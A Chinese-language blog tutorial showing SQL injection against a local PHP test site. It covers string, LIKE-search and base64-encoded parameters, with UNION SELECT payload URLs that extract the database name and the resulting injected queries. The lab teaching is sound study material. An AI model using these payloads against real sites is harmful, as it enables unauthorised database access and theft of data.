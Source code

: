 ![1645150888578-5aefbe4f-2c4e-4ae3-b10b-77360ab6b9f6.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132700572-576098440.png)

```plain
执行：http://127.0.0.1:8081/web/news.php?gtpl=simple' +UNION+ALL+SELECT+1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+
就可以进行正确的注入语句。
```

![1645151176379-19129378-b6d3-4a98-8a55-bb88b1cb8923.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132701959-851248856.png)

搜索

```plain
搜索型
SQL语句：$sql="select * from sy_guestbook where gName like '%$s%'";
http://127.0.0.1:8081/web/news.php?search=演示
有百分号%通配符和单引号，需要进行闭合
本身SQL语句：select * from sy_guestbook where gName like '%$s%'
写入语句：http://127.0.0.1:8081/web/news.php?search=演示%' +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+
代入执行：select * from sy_guestbook where gName like '%演示%' +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+%'
但是这种在后面闭合不了。
```

![1645151528559-766a6dbd-07aa-4d97-b0fd-bcff00f8317e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132702118-489985223.png)

```plain
SQL语句：http://127.0.0.1:8081/web/news.php?search=演示%' +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 and '%'='
代入：select * from sy_guestbook where gName like '%演示%' +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 and '%'='%'
这样子就正确执行。
```

![1645151747640-f62b1f39-f474-4358-8a90-4ed9cfc01865.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132701292-1678954771.png)

编码

```plain
编码型&加密型
SQL语句：数据接受：$b=base64_decode($_GET['base']);     $sql="select * from sy_guestbook where id=$b";
http://127.0.0.1:8081/web/news.php?base=MQ==
数据进行编码（加密）后接收处理：
数据以编码（加密）值传递，发送编码值，对方常会进行解码后带入数据在进行SQL执行。在注入的时候，我们也要尝试对注入的payload进行编码后提交。
在注入的时候，需要进行编码后在进行注入：
正常语句：http://127.0.0.1:8081/web/news.php?base=1 UNION SELECT 1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
经过编码后：
```

![1645152745503-bbbdd41f-3c2c-4dc8-a91c-587c9eb6f5f6.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132700201-1136210806.png)

```plain
编码后：http://127.0.0.1:8081/web/news.php?base=MSBVTklPTiBTRUxFQ1QgMSxkYXRhYmFzZSgpLDMsNCw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTUsMTYsMTc=
```
